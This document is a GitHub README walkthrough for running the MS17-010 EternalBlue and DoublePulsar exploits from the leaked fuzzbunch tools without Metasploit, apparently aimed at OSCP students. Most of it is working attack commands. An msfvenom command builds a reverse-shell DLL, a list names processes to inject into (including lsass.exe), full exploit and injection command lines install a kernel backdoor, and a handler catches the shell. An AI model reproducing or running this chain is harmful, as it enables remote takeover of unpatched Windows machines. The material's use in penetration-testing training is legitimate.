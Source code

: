 # Eternal-pulsar (ms17-010)

Eternalblue-Doublepulsar without Metasploit and Python <br> 
base on shadowbroker's exploit (fuzzbunch)
- you can run it on windows or linux (need wine)


### Create payload with msfvenom (staged)

` msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f dll >  shell.dll`

you can also use other payloads <b>windows/shell_reverse_tcp</b> (stageless), <b>windows/meterpreter/reverse_tcp</b>

### ProcessName list to inject
`lsass.exe (x64)` <br>
`wlms.exe  (x86) `<br>
`svchost.exe ` <br>
`explorer.exe `<br>
`spoolsv.exe `<br>

### EternalBlue & Doublepulsar  (--help )

[help.txt](https://github.com/sailay1996/eternal-pulsar/blob/master/help.txt)


### Backdoor Install with EternalBlue 

` Eternalblue-2.2.0.exe --TargetIp 10.10.10.10 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt` <br>

![test1](https://github.com/sailay1996/eternal-pulsar/blob/master/img/2.jpg)


### Sending shellcode to inject DLL with Doublepulsar 

` Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 10.10.10.10 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll`
<br>
![test2](https://github.com/sailay1996/eternal-pulsar/blob/master/img/1.jpg)

### multi/handler listening with msf

` msfconsole -q -r msfhandler.rc`

#### pwned !!!
![test3](https://github.com/sailay1996/eternal-pulsar/blob/master/img/3.jpg)

Thanks for watching here !!! <br>
I hope this will help you in your oscp journey .
<br><br>
#### [@404death](https://twitter.com/404death)
